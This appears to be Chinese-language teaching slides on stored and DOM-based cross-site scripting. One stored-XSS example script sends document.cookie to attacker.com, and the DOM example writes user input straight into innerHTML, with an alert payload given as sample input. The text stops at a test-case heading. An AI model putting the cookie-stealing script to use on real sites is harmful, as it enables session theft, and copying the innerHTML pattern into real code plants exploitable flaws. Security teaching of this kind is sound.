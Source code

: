 
# Stored XSS

- 攻擊程式碼儲存在伺服器端
- 任何訪問頁面的使用者都會受影響
- 常見於留言板、評論、文章發布等

<div class="mt-4">
```html {1|2-4}
// 攻擊者提交惡意留言
<script>
  fetch('http://attacker.com/steal?cookie=' + document.cookie)
</script>

```
</div>


---

# DOM-based XSS

- 發生在 client-side JavaScript 執行過程中
- 攻擊者無需伺服器端儲存惡意程式碼
- 在 DOM 中直接操作和執行

<div class="mt-4">
```html {1-2,4|6-16|all}
<div id="output"></div>
<input type="text" id="userInput">
    
<button onclick="displayMessage()">Submit</button>

<script>
  function displayMessage() {
    const input = document.getElementById('userInput');
    const outputDiv = document.getElementById('output');

    outputDiv.innerHTML = input.value;
  }


</script>

// 惡意輸入範例：
  // <script>alert('XSS Attack!');</script>
```
</div>

---

# DOM-based XSS Test Case
